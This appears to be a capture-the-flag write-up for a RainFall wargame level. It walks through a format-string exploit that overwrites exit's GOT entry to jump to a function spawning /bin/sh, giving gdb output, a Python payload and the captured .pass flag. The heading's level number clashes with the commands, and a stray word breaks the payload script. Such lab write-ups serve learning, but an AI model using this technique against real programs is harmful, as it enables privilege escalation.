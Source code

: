 # level6

Again a Format String Exploit, but this time no variable to modify.
Even worse: no return, after `printf()` the function calls `exit()`

```gdb
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```

By searchin a bit more, we see that there is another function in this program, named `o()`

```gdb
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) x/s 0x80485f0
0x80485f0:       "/bin/sh"
```

So this `o()` function calls `system("/bin/sh")`, looks perfect to me!
Now we need a way to return to this function... but we cannot return so we have to jump to it.
However there is no jumps, in neither `main()` nor `n()`.
But, if we think about it, the `call` instruction is a jump. So how do we use this to our advantage.

After `printf()`, the only thing done is to call `exit()`.
`exit()` is a libc function, located in the GOT.

The GOT (Global Offset Table) is a section of the program's memory that maps the real address (the one in the libc) of a function at execution time.
This is what a GOT function looks like (`exit()` in our case):

```gdb
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:     push   0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

The first line is "jump to the value stored at 0x8049838".
So our goal for the exploit is to overwrite the value stored at 0x8049838 to the address of our `o()` function.
But what even is in this address?

```gdb
(gdb) x/wx 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```

There is the value `0x080483d6`, the address of `o()` is `0x80484a4`.
This is great because the first two bytes are the same: `0804`,
so we only need to change the last part of the address, which means only one `"%hn"`.

We need to write `84a4` which is 33956 in decimal.
Before anything, let see when we start popiing our own address.

```bash
level5@RainFall:~$ ./level5
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

So the 4th address is the good one.

```python
print("\x38\x98\x04\x08" +
      "%c" * 2 +
      "%33950u" +
      "%hn"
      )whoa
```

We write the address, then we pop 2 values and the 3rd value we pop will add the padding.
The first line will write 4 characters, the 2nd one will write 2 characters and the 3rd one 33950.
4 + 2 + 33950 = 33956, that matches our `84a4` so we can now write the value with `%hn`.

```bash
level5@RainFall:~$ python level5.py | ./level5
8�
[...]
                                                    3086956496
whoami
level6
cd ../level6
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## .pass: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31